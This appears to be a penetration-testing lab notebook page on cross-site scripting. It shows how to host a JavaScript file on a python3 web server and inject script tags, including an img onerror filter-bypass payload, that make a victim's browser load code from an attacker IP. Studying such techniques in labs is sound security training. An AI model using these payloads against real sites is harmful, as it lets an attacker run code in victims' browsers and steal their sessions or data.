 #### Moving the Payload to an External Resource

- This is just utilized to exploit `XSS` remotely by having the `xss.js` file hosted on a `python3` http server and telling the web server to reach back and pull it.

The exploits we discuss here will be more complicated than an alert box. For this reason, we need to use a payload that can deliver a more complicated exploit. While it is possible to write a single line exploit to inject into the application, it's better to inject an HTML _script_ tag, which loads the full JavaScript from our Kali machine, as it will let us write more complicated JavaScript without encoding.

Payloads:
```bash
┌──(root💀gobots)-[31Jul2024 20:23:23]-[/home/kali/SUT]
└─# mkdir xss

┌──(root💀gobots)-[31Jul2024 20:23:25]-[/home/kali/SUT]
└─# cd xss
echo "alert(1)" > xss.js

python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
Now that the server is started, let's use the payload to exploit the search application with the script below:
```js
<script src="http://192.168.45.155:8000/xss.js"></script>
```

Payload if `innerHTML` is active: 
We are unable to execute because the `innerHTML` method being implemented so we are forced to translate the original payload into a payload that bypasses the method

Original
```html
<script src="http://192.168.45.223:80/xss2.js"></script>
```
Converted utilizing the `img` tag and `onerror`  with chatgpt
```bash
<img src="nonexistent.jpg" onerror="this.onerror=null;document.write('<script src=\'http://192.168.45.223:80/xss2.js\'><\/script>');" />
```

The payload will append a script element to the HTML document and the script tag will load the `xss.js` file from our Kali machine. Let's submit the search and exploit the XSS.
![[Pasted image 20240731162755.png]]
After Search
![[Pasted image 20240731162838.png]]
After hitting ok the `script` is rendered on the attacker side it becomes encoded
![[Pasted image 20240731163144.png]]
Once its encoded, render on the victim and now we receive the alert output

![[Pasted image 20240731164447.png]]
We find two entries in the HTTP server logs. The first is from our own Kali IP when we loaded the page ourselves. The second is from the victim's browser.
